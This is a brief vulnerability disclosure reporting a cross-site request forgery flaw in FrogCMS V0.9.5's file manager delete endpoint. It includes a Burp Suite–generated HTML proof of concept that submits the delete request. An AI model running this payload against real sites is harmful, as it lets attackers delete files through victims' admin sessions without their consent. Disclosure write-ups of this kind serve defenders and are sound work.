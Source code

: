 
target:https://github.com/philippe/FrogCMS
version: V0.9.5

FrogCMS V0.9.5 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/?/plugin/file_manager/delete/123

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/?/plugin/file_manager/delete/123" method="POST">
      <input type="hidden" name="/plugin/file_manager/delete/123" value="" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

